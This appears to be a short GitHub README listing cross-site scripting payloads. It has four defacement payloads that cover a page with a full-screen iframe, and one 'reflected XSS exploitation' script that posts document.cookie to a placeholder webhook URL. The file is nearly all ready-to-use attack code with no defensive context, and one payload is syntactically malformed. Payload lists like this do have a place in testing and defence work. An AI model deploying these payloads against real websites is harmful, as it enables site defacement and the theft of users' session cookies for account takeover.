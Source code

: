 # XSS Payloads
List of XSS payloads

## XSS Defacement Payloads

### XSS Script Payload
```
<script>document.documentElement.innerHTML="<html><iframe src='https://example.com' style='visibility: visible; border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;'></iframe></html>";</script>
```
### XSS Div Payload
```
<div onload="<script>document.documentElement.innerHTML="<html><iframe src='https://example.com' style='visibility: visible; border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;'></iframe></html>";</script>"></div>
```
### XSS Iframe Payload
```
<iframe src="https://example.com" style="border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;"></iframe>
```
### XSS SVG Payload
```
<svg width="100%" height="100%" style="position: fixed; top: 0; right: 0; bottom: 0; left: 0;"> <foreignObject width="100%" height="100%"> <body xmlns="http://www.w3.org/1999/xhtml"> <iframe src="https://example.com" style="border: 0; width: 100%; height: 100%;"></iframe> </body> </foreignObject> </svg>
```

## Reflected XSS Exploitation Payloads
```
<script> fetch('WEBHOOK.SITE URL HERE', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
